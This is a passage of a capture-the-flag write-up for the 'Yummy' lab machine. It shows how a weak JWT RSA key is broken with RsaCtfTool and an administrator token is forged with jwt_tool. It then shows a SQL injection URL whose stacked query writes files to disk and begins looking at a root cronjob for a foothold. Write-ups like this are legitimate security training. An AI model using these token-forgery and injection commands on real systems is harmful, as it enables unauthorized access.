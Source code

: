 ```bash
python3 RsaCtfTool.py -n <n value from JWT> -e 65537 --createpub
```

Then, we can get the private key:  

```bash
python3 RsaCtfTool.py -n <n value from JWT> -e 65537  --private
```
We save the public key and private key in separate files and then we can use [jwt_tool](https://github.com/ticarpi/jwt_tool) to tamper with the JWT and change the role to administrator.  

```bash
python3 jwt_tool.py -pk pubkey -pr privkey -S rs256 -I -pc role -pv administrator <JWT token>
```
![image](https://i.imgur.com/uPwP4gx.png)

With the forged JWT in our browser cookie jar we can navigate to `/admindashboard` and have access to the search functionality:  

![image](https://i.imgur.com/cLZPrjc.png)

#### SQL Injection
The SQL Injection we saw in the source code is confirmed when testing with a single quote in the `o` parameter. Considering the error output is visible on the page, we shouldn't have much difficulty exploiting this one:  

![image](https://i.imgur.com/qu4OP07.png)

After various SQL enumeration we can tell that there is nothing interesting in the database. We can try stacked queries and find that we have the FILE permissions and can write files to disk:  

```
http://yummy.htb/admindashboard?s=&o=DESC;select "test" into outfile "/tmp/lazytitan.txt";
```
Sending this URL and then using the Path Traversal, confirms that we have written this file. We can't read it because the File Read is done by the webapp server which is probably running as www-data, whereas the file would be created by the mysql service. We can see the difference in response before and after sending the SQLi command:  

![image](https://i.imgur.com/fOguPuM.png)

#### Foothold

We now have both File Read and File Write however, we can't overwrite files and we can't read files that would give us a foothold. This being a Flask application with debug set to False, we can't change the source code and have it apply even if we could somehow overwrite files.

Going back to our enumeration, we remember that there were some cronjobs run by the mysql user which we can write files with. The table_cleanup.sh cronjob doesn't show any opportunities for us:  

![image](https://i.imgur.com/3yCvVgP.png)

Let's have a closer look at the `/data/scripts/dbmonitor.sh` script:  

```bash
#!/bin/bash

timestamp=$(/usr/bin/date)
service=mysql
response=$(/usr/bin/systemctl is-active mysql)

if [ "$response" != 'active' ]; then
    /usr/bin/echo "{\"status\": \"The database is down\", \"time\": \"$timestamp\"}" > /data/scripts/dbstatus.json
    /usr/bin/echo "$service is down, restarting!!!" | /usr/bin/mail -s "$service is down!!!" root
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
```